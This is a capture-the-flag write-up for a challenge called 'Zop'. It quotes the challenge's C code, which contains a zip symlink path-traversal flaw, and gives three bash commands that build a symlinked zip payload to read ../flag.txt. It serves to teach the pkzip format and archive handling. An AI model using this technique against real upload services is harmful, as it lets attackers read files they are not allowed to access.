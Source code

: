 # Zop

## Description
ZAP ZIP ZOP ZAB ZIB ZOB... I'm just trying to overwhelm you with useless code.

## Writeup
Although this challenge contains a lot of code, it was designed to teach players about the genius design of the pkzip format. Check the [documentation](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html) for more details.

The program contains a zip symlink path traversal vulnerability:
```c
if ((cfh->external_attrs | 0xa0000000) == cfh->external_attrs){
    fd = open(filename, O_RDONLY);
    if (fd < 0)
        return;
    symbol_name = malloc(cfh->uncompressed_size + 1);
    read(fd, symbol_name, cfh->uncompressed_size);
    close(fd);
    remove(filename);
    symlink(symbol_name, filename);
    free(symbol_name);
}
```
This means that if a zip file with a symlink to any directory is uploaded, it will be read.

The solution can be accomplished in three lines of bash code:

```sh
ln -s ../flag.txt alt.txt
zip --symlinks pay alt.txt
cat pay.zip | base64
```
